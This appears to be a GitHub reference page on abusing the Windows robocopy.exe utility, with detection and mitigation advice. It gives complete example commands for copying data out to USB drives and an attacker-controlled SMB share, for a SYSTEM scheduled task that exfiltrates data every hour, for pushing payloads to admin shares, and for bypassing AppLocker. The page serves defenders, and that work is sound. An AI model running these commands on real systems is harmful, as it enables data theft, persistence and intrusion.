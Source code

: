 # robocopy.exe
## What is it?
*```robocopy.exe``` (Robust File Copy) is a **built-in Windows command-line utility** designed for fast and resilient file copying.
Unlike traditional ```copy``` or ```xcopy```, it supports **advanced options**, such as:

- **Copying files while maintaining timestamps & attributes**
- **Mirroring entire directories (backup replication)**
- **Copying files even when interrupted**

*Because it's a **trusted**, **built-in Windows binary**, security tools often **overlook its misuse**.*

## Legitimate Usage
- **Backup & Sync Files** → Copy files while preserving attributes (```/MIR```, ```/COPYALL```)
- **Network File Transfers** → Move data between local and remote systems (```/E```, ```/ZB```)
- **Fast Data Migration** → Copy large datasets efficiently (```/MT```)
- **Automated File Management** → Use in scripts for scheduled backups

## How to abuse it
- **File Transfer & Exfiltration** → Copy sensitive data for theft
- **Bypassing Security Controls** → Uses a trusted Microsoft binary (LOLBas)
- **Persistence via Scheduled Tasks** → Automate data theft on a schedule
- **Privilege Escalation & Lateral Movement** → Copy files over SMB to evade detection

## Example attacks
### 1. Data Exfiltration (Stealthy File Copying)
*Attackers can use ```robocopy.exe``` to **steal files** from a system and move them to an external drive or network share.*
**Copy All Files to an External USB Drive**
```
robocopy C:\SensitiveData E:\Backup /E /ZB /COPYALL /R:0 /W:0 /NDL /NFL /NP
```
**Effect:**
- ```/E``` → Copy all files and subdirectories
- ```/ZB``` → Use restartable mode (bypasses some locked files)
- ```/COPYALL``` → Copy all attributes (timestamps, ACLs, etc.)
- ```/NDL /NFL /NP``` → Avoid logging details to stay stealthy

### 2. Exfiltration Over a Network Share
*Attackers may copy data to a remote SMB share, bypassing detection.*
**Transfer Files Over SMB to an Attacker-Controlled Share**
```
robocopy C:\SensitiveData \\192.168.1.100\share /E /MIR /LOG+:C:\Windows\Temp\log.txt
```
**Effect:**
- *Mirrors the folder to ```\\192.168.1.100\share```*
- *Logs activity to ```log.txt``` for stealth*

### 3. Persistence via Scheduled Tasks
*Attackers can use robocopy.exe to schedule periodic data exfiltration.*
**Set Up a Scheduled Task to Copy Data Every Hour**
```
schtasks /create /tn "BackupJob" /tr "robocopy C:\SensitiveData \\192.168.1.100\backup /E" /sc hourly /ru SYSTEM
```
*Runs every hour under ```SYSTEM```, ensuring stealth and persistence*

### 4. Lateral Movement via SMB & Admin Shares
*Using ```robocopy.exe```, an attacker with admin credentials can copy malware or tools across systems via SMB.*
**Push Malware to Another System's Admin Share**
```
robocopy payloads \\192.168.1.50\C$\Windows\Temp /E
```
*Copies all files in ```payloads``` to the ```C$``` share of ```192.168.1.50```*

### 5. Bypassing File Execution Restrictions
*Attackers can use ```robocopy.exe``` to **bypass AppLocker or Software Restriction Policies (SRP)** by copying files into a trusted directory (e.g., ```C:\Windows\System32```).*
**Copy Malware to a Trusted Directory**
```
robocopy C:\MalwareFolder C:\Windows\System32 /E /COPYALL
```
*Places malware in a **whitelisted directory**, bypassing security controls*

# Detection & Mitigation
## Detection Methods
**Monitor Large File Transfers**
- **Event ID 4663 (File Access)** → Detect bulk file movements
- **Look for ```robocopy.exe``` writing to USB devices (E:, F:, etc.)**

**Detect Suspicious Network Activity**
- **Event ID 5140 (SMB Connection)** → Monitor outbound file transfers
- **Look for unauthorized SMB access (e.g., copying files to external shares)**

**Scheduled Task Creation**
- **Event ID 4698 (Scheduled Task Created)** → Detect persistence attempts

## Mitigation Strategies
- **Restrict External Drive Access** → Block unauthorized USB file transfers.
- **Use Application Control (AppLocker, WDAC)** → Prevent unauthorized ```robocopy.exe``` execution.
- **Monitor File Access Logs** → Detect unusual file transfers.
- **Disable Unused Admin Shares** → Reduce SMB attack surface.
